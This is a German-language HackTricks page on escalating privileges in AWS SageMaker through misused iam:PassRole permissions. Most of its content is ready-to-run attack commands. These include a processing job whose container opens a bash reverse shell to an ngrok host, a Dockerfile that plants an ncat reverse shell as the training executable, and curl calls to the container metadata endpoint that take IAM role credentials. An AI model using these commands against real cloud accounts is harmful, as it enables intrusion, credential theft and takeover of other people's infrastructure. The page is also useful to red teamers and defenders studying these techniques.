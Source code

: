 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Beginnen Sie mit der Erstellung eines Notebooks mit der IAM-Rolle, die daran angehängt ist:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die Antwort sollte ein Feld `NotebookInstanceArn` enthalten, das die ARN der neu erstellten Notizbuchinstanz enthält. Wir können dann die API `create-presigned-notebook-instance-url` verwenden, um eine URL zu generieren, die wir verwenden können, um auf die Notizbuchinstanz zuzugreifen, sobald sie bereit ist:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigieren Sie mit dem Browser zur URL und klicken Sie auf \`Open JupyterLab\` im oberen rechten Bereich, scrollen Sie dann zum Tab “Launcher” und klicken Sie im Abschnitt “Other” auf die Schaltfläche “Terminal”.

Jetzt ist es möglich, auf die Metadaten-Anmeldeinformationen der IAM-Rolle zuzugreifen.

**Potenzielle Auswirkungen:** Privesc auf die angegebene sagemaker-Dienstrolle.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Wenn bereits Jupyter **Notebooks darauf ausgeführt werden** und Sie sie mit `sagemaker:ListNotebookInstances` auflisten können (oder sie auf andere Weise entdecken). Sie können **eine URL für sie generieren, auf sie zugreifen und die Anmeldeinformationen stehlen, wie in der vorherigen Technik angegeben**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potenzielle Auswirkungen:** Privesc auf die mit der sagemaker-Service-Rolle verbundene Rolle.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Ein Angreifer mit diesen Berechtigungen kann **sagemaker einen Processing-Job ausführen** lassen, der mit einer sagemaker-Rolle verbunden ist. Der Angreifer kann die Definition des Containers angeben, der in einer **von AWS verwalteten ECS-Kontoinstanz** ausgeführt wird, und **die Anmeldeinformationen der angehängten IAM-Rolle stehlen**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potenzielle Auswirkungen:** Privesc auf die angegebene sagemaker-Dienstrolle.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen wird in der Lage sein, einen Trainingsjob zu erstellen, **ein beliebiges Container** darauf auszuführen mit einer **angehängten Rolle**. Daher wird der Angreifer in der Lage sein, die Anmeldeinformationen der Rolle zu stehlen.

{% hint style="warning" %}
Dieses Szenario ist schwieriger auszunutzen als das vorherige, da Sie ein Docker-Image erstellen müssen, das die rev shell oder Anmeldeinformationen direkt an den Angreifer sendet (Sie können keinen Startbefehl in der Konfiguration des Trainingsjobs angeben).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potenzielle Auswirkungen:** Privesc auf die angegebene sagemaker-Dienstrolle.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen wird (potenziell) in der Lage sein, einen **Hyperparameter-Trainingsjob** zu erstellen, **einen beliebigen Container** darauf auszuführen und eine **angehängte Rolle** zu verwenden.\
&#xNAN;_&#x49; habe nicht ausgebeutet wegen Zeitmangel, sieht aber ähnlich aus wie die vorherigen Ausnutzungen, zögere nicht, einen PR mit den Ausnutzungsdetails zu senden._

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos sendest.

</details>
{% endhint %}
